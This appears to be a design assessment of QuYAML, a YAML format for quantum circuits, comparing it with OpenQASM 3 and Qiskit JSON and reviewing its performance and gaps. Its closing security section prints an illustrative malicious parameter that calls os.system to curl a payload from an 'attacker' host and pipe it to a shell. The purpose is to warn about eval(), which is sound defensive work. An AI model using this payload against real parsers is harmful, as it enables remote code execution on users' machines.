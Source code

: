 ## Competitive Landscape and Niche Positioning

QuYAML sits between comprehensive text IRs (OpenQASM 3) and framework-internal binary formats (QPY, ProtoBuf). Its declarative YAML design targets human and LLM authoring workflows.

### Comparative Analysis for LLM-Centric Workflows

| Feature | QuYAML v0.2 | OpenQASM 3.0 | Qiskit JSON (backend payload) |
|---|---|---|---|
| LLM Token Efficiency | Good: much shorter than JSON; trailing OpenQASM 3 on hard circuits | Excellent: compact imperative syntax | Poor: very verbose nested structure |
| Human Readability | Excellent: declarative, self-describing keys | Good: familiar C-like; more punctuation noise | Poor: not for authoring |
| LLM Generability | Excellent: key/value YAML is easy to produce correctly | Moderate: subtle syntax errors possible | Excellent: structured, but very verbose |
| Feature Coverage | Poor: no mid-circuit measure/control flow | Excellent: dynamic circuits, timing, classical types | N/A: not a general-purpose language |
| Formal Grammar/Schema | None today | Excellent: formal ANTLR grammar | Yes: formal JSON Schemas for payloads |
| Ecosystem Support | Growing: Qiskit, PennyLane interop | Excellent: de facto standard | N/A (internal) |

## In-Depth Assessment of QuYAML v0.2

### Current Strengths
- Readability and Simplicity: Minimal, declarative syntax; great for humans and LLMs.
- Pragmatic Interoperability: Direct path to Qiskit and PennyLane (`qml.from_qiskit`).
- Solid Engineering: Benchmarks, CI, and tests provide a reliable foundation.

### Identified Weaknesses and Gaps
- Dynamic Circuits: No mid-circuit measure or classical control flow.
- Performance Characteristics:
  - Parse Time: QuYAML (~5.5 ms avg) is much slower than JSON decode (~0.05 ms), but faster than QASM3 parse (~25 ms). End-to-end comparisons (string→QuantumCircuit) are needed.
  - Token Count: On PennyLane-style hard circuits, QuYAML averages ~12.9% more tokens than QASM3, though ~29.4% fewer than JSON.
- Formalism and Versioning: No version field or formal schema/grammar.
- YAML Pitfalls: Full YAML features (anchors, tags) are not restricted, risking complexity and security issues.

## The `eval` Vulnerability: A Critical Security Imperative

Using `eval()` to evaluate parameter expressions is unsafe and can enable arbitrary code execution from untrusted files. Replace it immediately with a safe evaluator (e.g., `asteval`) and a tightly restricted symbol table.

Example of a malicious payload (for illustration):

```yaml
params:
  evil_param: '__import__("os").system("curl http://attacker/payload | sh")'
ops:
  - rx($evil_param) 0
```
